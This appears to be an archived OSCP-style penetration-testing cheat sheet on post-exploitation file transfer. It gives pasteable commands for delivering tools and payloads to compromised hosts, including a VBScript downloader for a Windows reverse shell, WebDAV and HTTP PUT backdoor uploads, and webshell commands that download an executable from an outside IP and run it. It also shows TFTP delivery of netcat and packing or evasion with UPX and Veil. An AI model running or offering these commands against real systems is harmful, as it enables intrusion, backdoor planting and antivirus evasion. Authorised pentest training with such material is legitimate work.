 # [](#file-transfers)File Transfers

*   Post exploitation refers to the actions performed by an attacker, once some level of control has been gained on his target.

*   Simple Local Web Servers

    *   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    *   Run a basic Python3 http server, great for serving up shells etc  
        python3 -m http.server

    *   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    *   Run a basic PHP http server  
        php -S $ip:80

*   Creating a wget VB Script on Windows:  
    [_https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt_](http://web.archive.org/web/20171113221652/https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

*   Windows file transfer script that can be pasted to the command line. File transfers to a Windows machine can be tricky without a Meterpreter shell. The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

    The file can be run using the following syntax:

    `C:\temp\cscript.exe webdl.vbs`

*   Mounting File Shares

    *   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs
*   HTTP Put  
    nmap -p80 $ip --script http-put --script-args http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

*   ## [](#uploading-files)Uploading Files

    *   SCP

        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

        scp localfile username@$ip:~/Folder/

        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~

    *   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

        `davtest -move -sendbd auto -url http://$ip`

        [https://github.com/cldrn/davtest](http://web.archive.org/web/20171113221652/https://github.com/cldrn/davtest)

        You can also upload a file using the PUT method with the curl command:

        `curl -T 'leetshellz.txt' 'http://$ip'`

        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    *   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        [curl -s --data "cmd=wget [http://174.0.42.42:8000/dhn](http://web.archive.org/web/20171113221652/http://174.0.42.42:8000/dhn) -O /tmp/evil" http://$ip/files/sh.php  
        [curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    *   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\Users\Offsec>tftp -i $ip get nc.exe

    *   FTP  
        apt-get update && apt-get install pure-ftpd

        #!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/

        /etc/init.d/pure-ftpd restart

*   ## [](#packing-files)Packing Files

    *   Ultimate Packer for eXecutables  
        upx -9 nc.exe

    *   exe2bat - Converts EXE to a text file that can be copied and pasted  
        locate exe2bat  
        wine exe2bat.exe nc.exe nc.txt

    *   Veil - Evasion Framework - [https://github.com/Veil-Framework/Veil-Evasion](http://web.archive.org/web/20171113221652/https://github.com/Veil-Framework/Veil-Evasion)  
        apt-get -y install git  
        git clone [https://github.com/Veil-Framework/Veil-Evasion.git](http://web.archive.org/web/20171113221652/https://github.com/Veil-Framework/Veil-Evasion.git)  
        cd Veil-Evasion/  
        cd setup  
        setup.sh -c
